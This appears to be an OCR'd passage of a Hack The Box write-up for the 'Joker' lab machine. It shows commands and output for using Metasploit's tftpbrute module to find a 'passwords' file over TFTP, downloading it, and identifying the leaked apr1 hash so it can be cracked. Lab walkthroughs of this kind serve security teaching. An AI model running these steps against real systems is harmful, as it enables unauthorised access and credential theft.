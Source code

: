 ```
msf > use auxiliary/scanner/tftp/tftpbrute
msf auxiliary(tftpbrute) > show options

Module options (auxiliary/scanner/tftp/tftpbrute):

   Name        Current Setting                                          Required  Description
   ----        ---------------                                          --------  -----------
   CHOST                                                                no        The local client address
   DICTIONARY  /usr/share/metasploit-framework/data/wordlists/tftp.txt  yes       The list of filenames
   RHOSTS                                                               yes       The target address range or CIDR identifier
   RPORT       69                                                       yes       The target port
   THREADS     1                                                        yes       The number of concurrent threads

msf auxiliary(tftpbrute) > set RHOSTS 10.10.10.21
RHOSTS => 10.10.10.21
msf auxiliary(tftpbrute) > set DICTIONARY /usr/share/wordlists/dirb/common.txt
DICTIONARY => /usr/share/wordlists/dirb/common.txt
msf auxiliary(tftpbrute) > run

[*] Found passwords on 10.10.10.21
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
We load up the tftpbrute module, look at our options, set the RHOSTS to joker's IP, and also set our own dictionary file. We see that we get a hit for passwords after running for a minute, great! Let's tftp it over from joker and see whats inside.

```
root@kali:~/htb/joker# tftp 10.10.10.21
tftp> get passwords
Received 48 bytes in 0.0 seconds
tftp> quit
root@kali:~/htb/joker# cat passwords
kalamari:$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0
```

Looks like we are in business, we have a hash for what seems to be the proxy user. Let's go ahead and see what kind of hash we have to feed into hashcat.

```
root@kali:~/htb/joker# hash-identifier
   #########################################################################
   #	 __  __ 		    __		 ______    _____	   #
   #	/\ \/\ \		   /\ \ 	/\__  _\  /\  _ `\	   #
   #	\ \ \_\ \     __      ____ \ \ \___	\/_/\ \/  \ \ \/\ \	   #
   #	 \ \  _  \  /'__`\   / ,__\ \ \  _ `\	   \ \ \   \ \ \ \ \	   #
   #	  \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \	    \_\ \__ \ \ \_\ \	   #
   #	   \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/	   #
   #	    \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.1 #
   #								 By Zion3R #
   #							www.Blackploit.com #
   #						       Root@Blackploit.com #
   #########################################################################

   -------------------------------------------------------------------------
 HASH: $apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0

Possible Hashs:
[+]  MD5(APR)
```
